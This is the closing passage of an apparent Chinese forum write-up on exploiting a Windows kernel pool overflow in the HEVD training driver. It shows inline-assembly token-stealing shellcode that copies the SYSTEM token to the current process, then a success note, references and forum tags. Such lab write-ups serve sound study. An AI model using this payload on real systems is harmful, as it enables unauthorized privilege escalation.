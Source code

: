 ```
    {
        // 取当前线程
        mov eax, fs:[0x124]
        // 取线程对应的EPROCESS
        mov esi, [eax + 0x150]
        mov eax, esi
        searchWin7 :
        mov eax, [eax + 0xB8]
        sub eax, 0x0B8
        mov edx, [eax + 0xB4]
        cmp edx, 0x4
        jne searchWin7
        mov eax, [eax + 0xF8]
        mov[esi + 0xF8], eax
    }
 
    // 开起页保护
    __asm
    {
        mov eax, cr0
        or eax, 0x10000
        mov cr0, eax
        sti
    }
 
    g_bIsExecute = true;
}
 
void ShowError(PCHAR msg, DWORD ErrorCode)
{
    printf("%s Error 0x%X\n", msg, ErrorCode);
} 
```

可以看到，最终成功执行 shellcode，提取成功

![](https://bbs.pediy.com/upload/attach/202201/835440_6GP3RR4PD3KS366.jpg)

四. 参考资料  

==========

> *   [**Windows exploit 开发系列教程第十六部分：内核利用程序之池溢出**](https://bbs.pediy.com/thread-225182.htm)
>     
> *   [**HEVD 非换页池溢出**](https://50u1w4y.github.io/site/HEVD/nonPagedpooloverflow/)  
>     

[【公告】欢迎大家踊跃尝试高研班 11 月试题，挑战自己的极限！](https://bbs.pediy.com/thread-270220.htm)

最后于 14 小时前 被 1900 编辑 ，原因：

[#漏洞分析](forum-150-1-153.htm) [#漏洞利用](forum-150-1-154.htm) [#缓冲区溢出](forum-150-1-156.htm) [#Windows](forum-150-1-160.htm)